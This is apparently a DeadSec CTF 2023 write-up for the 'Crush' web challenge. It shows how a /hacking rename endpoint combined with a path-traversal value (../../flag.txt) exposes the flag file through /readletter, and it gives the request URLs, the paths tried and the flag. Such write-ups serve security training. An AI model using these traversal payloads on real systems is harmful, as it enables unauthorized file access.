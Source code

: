 # Crush Challenge

## question 

Send a letter to crush

url : https://www.deadsec.xyz/instances/crush

Author: onsra

![screen-shot](./assets/crush/screen1.png)

Attachments: 

- [app.js](./assets/crush/app.js)

## answer

after reading `app.js` source code, i realized that, flag probably exit in  a file with name `flag.txt`.

also, need to call `/hacking` api to set flag file path and then call `/readletter` api to read target file.

so my `/readletter` api is:

```
https://f7cbf08926fde192ad7b6016.deadsec.quest/readletter?lettername=flag
```

and my `/hacking` api is:

```
https://f7cbf08926fde192ad7b6016.deadsec.quest/hacking?hack=rename&lettername=flag&rename=../../flag.txt
```

but, for finding correct flag file path, i tested some paths like:

- `./flag.txt`
- `../flag.txt`
- `../../flag.txt`

In final, I found the flag in response of `/readletter` api: 

**`dead{CRUSH_LOVE_YOU_TOO}`**

## author

- name: DeadSec CTF 2023

- written by: madkne in 2023.05.19

- website: https://www.deadsec.xyz/

